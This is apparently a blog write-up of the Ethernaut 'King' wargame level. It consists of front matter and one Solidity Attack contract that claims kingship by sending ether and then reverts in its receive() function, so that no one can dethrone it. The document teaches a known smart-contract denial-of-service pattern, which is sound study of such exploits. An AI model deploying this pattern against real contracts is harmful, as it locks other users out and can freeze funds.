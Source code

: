 +++
title = 'Ethernaut Level 9 - King'
date = 2024-08-04
draft = false

featured_image =  '/images/ethernaut.png'
background_image= '/images/ethernaut.png'
summary = 'Stay King forever by refusing money'
tags = [ 'writeups' , 'blockchain' ]
+++

```solidity
// SPDX-License-Identifier: GPL-3.0

pragma solidity ^0.8.2;

interface King {}

// https://www.youtube.com/watch?v=5kNONlpJdDk
// http://www.kingoftheether.com/postmortem.html
contract Attack {
    King etherGame;

    constructor(King _etherGame) payable  {
        // Send enough eth to become king
        (bool success, bytes memory data) = address(_etherGame).call{value:1000000000000001}("");
        require(success);
    }

    // Refuse to receive Eth to DOS
    receive() external payable {
        assert(false);
    }
}
```